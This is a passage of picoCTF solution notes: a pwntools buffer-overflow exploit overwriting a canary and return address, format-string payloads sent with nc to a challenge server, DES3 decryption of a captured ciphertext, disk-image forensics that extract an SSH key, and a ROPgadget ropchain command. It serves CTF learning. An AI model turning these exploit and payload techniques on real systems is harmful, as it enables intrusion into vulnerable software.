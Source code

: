 ```python
    # check if remote server is false, if true, send line to the server
    if isRemote == False:
        remoteServer = process('./vuln')
    # send line to the server
    with remoteServer as p:
        p.recvuntil(b'>');p.sendline(bytes(str(manyByte), 'utf-8')) 
        payload2 = bytes('A' * startByte + canary + "A"*16, 'utf-8') + p32(winAddress)
        print(Fore.GREEN + '\n[+] Payload: ' + str(payload2) + Style.RESET_ALL)
        p.recvuntil(b'>');p.sendline(payload2)
        print(p.interactive())
    
if __name__ == '__main__':
    exploit()
```

#### Referensi
https://www.nullhardware.com/reference/hacking-101/picoctf-2018-binary-exploits/buffer-overflow-3/
https://github.com/Dvd848/CTFs/blob/master/2018_picoCTF/buffer%20overflow%203.md

### Eavesdrop

```sh
openssl des3 -d -salt -in file.des3 -out file.txt -k supersecretpassword123
echo 53616c7465645f5fbf1f3543c1437d489ac5c700f4809146799c9d503b551476a3f06159293bee7c9e5183fb5c4a184c | xxd -r -p
```

```sh
echo 53616c7465645f5fbf1f3543c1437d489ac5c700f4809146799c9d503b551476a3f06159293bee7c9e5183fb5c4a184c | xxd -r -p | openssl des3 -d -salt -k supersecretpassword123
```

### flag leak
```sh
for _ in {1..127}
do
    python3 -c "print('%x'*$_+'%s')" | nc saturn.picoctf.net 50797 >> result.txt && echo -e "$_\n" >> result.txt
done
```


### Operation Oni
```sh
for i in {1..10000}
do
    echo $i >> result.txt
    ffind -o 206848 disk.img $i >> result.txt
done
```

```sh
fls -o 206848 disk.img 3916
icat -o 206848 disk.img 2345 > key_file
chmod 600 key_file
ssh -i key_file -p 50786 ctf-player@saturn.picoctf.net
```
### ropfu
```sh
ROPgadget --binary ./vuln --ropchain
```
